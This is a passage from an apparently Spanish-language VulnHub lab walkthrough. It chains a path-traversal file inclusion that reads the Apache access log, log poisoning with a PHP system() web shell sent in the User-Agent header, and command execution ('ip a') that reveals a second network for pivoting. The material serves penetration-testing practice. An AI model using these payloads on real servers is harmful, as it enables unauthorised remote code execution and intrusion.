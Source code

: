 Funciona somo `www-data`

```bash
❯ curl -s -X GET "http://192.168.1.153:8593/index.php?book=../../../../../../../var/log/apache2/access.log" | tail -n 10
::1 - - [03/Apr/2023:13:40:20 -0400] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.4.38 (Debian) (internal dummy connection)"
::1 - - [03/Apr/2023:13:40:21 -0400] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.4.38 (Debian) (internal dummy connection)"
::1 - - [03/Apr/2023:13:40:22 -0400] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.4.38 (Debian) (internal dummy connection)"
::1 - - [03/Apr/2023:13:40:23 -0400] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.4.38 (Debian) (internal dummy connection)"
::1 - - [03/Apr/2023:13:40:24 -0400] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.4.38 (Debian) (internal dummy connection)"
192.168.1.94 - - [03/Apr/2023:14:14:45 -0400] "GET /xd HTTP/1.1" 404 436 "-" "pwned"
192.168.1.94 - - [03/Apr/2023:14:19:34 -0400] "GET /xd HTTP/1.1" 404 436 "-" "www-data
```

Vamos a ejecutar comandos con la funcion `system` de `php`

```bash
┌─[root@miguelos]─[/home/miguelrega7/VulnHub/pivoting2/192.168.1.153/content]
└──╼ curl -s -X GET "http://192.168.1.153/xd" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 192.168.1.153 Port 80</address>
</body></html>
```

Funciona y hay vemos que hay otra interfaz de red

```bash
❯ curl -s -X GET "http://192.168.1.153:8593/index.php?book=../../../../../../../var/log/apache2/access.log&cmd=ip+a" | tail -n 20
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens34: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 00:0c:29:e1:3e:28 brd ff:ff:ff:ff:ff:ff
    inet 10.10.0.128/24 brd 10.10.0.255 scope global dynamic ens34
       valid_lft 1414sec preferred_lft 1414sec
    inet6 fe80::20c:29ff:fee1:3e28/64 scope link 
       valid_lft forever preferred_lft forever
3: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:e1:3e:1e brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.153/24 brd 192.168.1.255 scope global dynamic ens33
       valid_lft 82129sec preferred_lft 82129sec
    inet6 2806:102e:10:34d9:20c:29ff:fee1:3e1e/64 scope global dynamic mngtmpaddr 
       valid_lft 2591841sec preferred_lft 2591841sec
    inet6 fe80::20c:29ff:fee1:3e1e/64 scope link 
       valid_lft forever preferred_lft forever
"
</p>    </body>
</html>
```
